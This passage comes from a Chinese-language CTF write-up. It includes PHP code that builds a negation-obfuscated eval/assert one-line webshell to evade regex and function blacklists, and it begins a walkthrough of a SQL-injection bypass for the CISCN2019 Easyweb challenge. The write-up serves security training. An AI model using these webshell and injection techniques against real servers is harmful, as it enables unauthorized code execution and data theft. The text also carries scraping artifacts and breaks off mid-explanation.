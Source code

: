 > > > > > > ![在这里插入图片描述](img/9ce1bea40cc0739b4528c8e14a956751.png)
> > > > > > 
> > > > > > *   步骤很简单，但知识点很难。都使用url编码是因为异或或取反可能会出现不可见字符。便于使用。
> > > > > > *   实际操作上，我感觉取反可能会更好一点，因为异或的话，情况太多。肯定得跑脚本，花的时间会长一点。下面是写一句话木马的取反代码
> > > > > > 
> > > > > > ```
> > > > > > <?php 
> > > > > > error_reporting(0);
> > > > > > $a='assert';
> > > > > > $b=urlencode(~$a);
> > > > > > echo $b;
> > > > > > echo  "\n";
> > > > > > $c='(eval($_POST["a"]))';
> > > > > > $d=urlencode(~$c);
> > > > > > echo $d;
> > > > > >  ?> 
> > > > > > ```
> > > > > > 
> > > > > > *   然后就是预期解法，看着就很复杂，有兴趣的可以[看看这个](https://www.cnblogs.com/yesec/p/12483631.html)。
> > > > > > *   有一说一，这绕正则的方法还是很秀，除了这个上面的介绍里还有其它的一些姿势。
> > > > > > *   第一步，就能在绕正则卡死，第二步就可能被函数黑名单卡死。。。
> > > > > > 
> > > > > > ### 5、[CISCN2019 总决赛 Day2 Web1]Easyweb
> > > > > > 
> > > > > > *   首先第一点就是`robots.txt`的提示源码泄露`*.php.bak` 但尝试 index.php 失败，可以在首页前端源代码中发现 image.php 和 user.php 。最终得到 image.php.bak 。
> > > > > >     
> > > > > >     
> > > > > > *   核心就是有一个先转义后置换为空的处理。不过看到下面的两个`\`并不是说替换两个，而是因为不写两个的话php会报错，多写一个是因为用来注释后面的，实际处理替换的还是一个`\`
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     $id=addslashes($id);
> > > > > >     $id=str_replace(array("\\0","%00","\\'","'"),"",$id); 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   显然，直接闭合sql语句是不可能，那么只能利用`\0` --> `\\0` --> `\`的处理过程来注释后面的单引号来完成注入。
> > > > > >     